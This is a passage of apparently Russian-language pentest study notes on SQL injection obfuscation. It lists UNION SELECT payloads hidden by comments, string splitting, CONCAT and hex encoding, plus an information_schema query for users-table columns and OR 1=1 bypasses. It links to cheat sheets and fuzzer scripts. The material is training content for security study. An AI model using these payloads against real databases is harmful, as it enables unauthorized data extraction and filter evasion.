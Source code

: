     - Пример:
    `"1' UNION SELECT 1, 2 --" может быть записано как "1' UNION SELECT 1 /* comment */, 2 --"`
3. **Разделение строк:**
    
    Разделяя строки на несколько частей, можно скрыть структуру запроса.
    
    - Пример:
    `"1' UNION SELECT " + "1" + ", 2 --"`
4. **Использование функций:**
    
    Использование встроенных функций для получения значений.
    
    - Пример:
    `"1' UNION SELECT CONCAT('Data', '1'), 2 --"`
5. **Перестановка частей запроса:**
    
    Изменение порядка условий или группировка их с помощью подзапросов.
    
    - Пример:
    `"1' UNION SELECT (SELECT column_name FROM information_schema.columns WHERE table_name='users'), 2 --"`

### Примеры обфускации

1. **Прямое использование hex-кодов**
`SELECT * FROM users WHERE username = 0x61646d696e;`
2. **Обфускация с помощью комментариев:**
`SELECT * FROM users WHERE id = 1 /* AND */ OR 1=1;`
3. **Комбинация методов:**
`SELECT * FROM users WHERE username = 'admin' AND password = 'password' --'`
можно обфусцировать как:
`SELECT * FROM users WHERE username = 'admin' /* AND */ AND password = 'pass' || 'word' --'`

> Больше про SQLi, DIOS, Filter and WAF evasion, специфике работы определенных СУБД можно прочитать в прикрепленных методичках
> 

---

[6.1.1.SQL-инъекции.pdf]($%20sqli%20162021737a8980da86bec724db1c0599/6.1.1.SQL-%25D0%25B8%25D0%25BD%25D1%258A%25D0%25B5%25D0%25BA%25D1%2586%25D0%25B8%25D0%25B8.pdf)

[6.1.2.SQL-инъекции.pdf]($%20sqli%20162021737a8980da86bec724db1c0599/6.1.2.SQL-%25D0%25B8%25D0%25BD%25D1%258A%25D0%25B5%25D0%25BA%25D1%2586%25D0%25B8%25D0%25B8.pdf)

[6.1.3.SQL-инъекции (Cheat sheet ).pdf]($%20sqli%20162021737a8980da86bec724db1c0599/6.1.3.SQL-%25D0%25B8%25D0%25BD%25D1%258A%25D0%25B5%25D0%25BA%25D1%2586%25D0%25B8%25D0%25B8_(Cheat_sheet_).pdf)

[codebysqlitask3curlfuzzer.py]($%20sqli%20162021737a8980da86bec724db1c0599/codebysqlitask3curlfuzzer.py)

[codebysqlitask4curlfuzzer.py]($%20sqli%20162021737a8980da86bec724db1c0599/codebysqlitask4curlfuzzer.py)

[codebysqlitask5curlfuzzer.py]($%20sqli%20162021737a8980da86bec724db1c0599/codebysqlitask5curlfuzzer.py)

1. [О языке sql](https://www.w3schools.com/sql/)
2. [Справочник по SQL-injection](http://www.sqlinjection.net/)
3. [Туториалs по sql-injection](http://www.securityidiots.com/Web-Pentest/SQL-Injection)
4. [Еще по sql](https://sqlwiki.netspi.com/#mysql)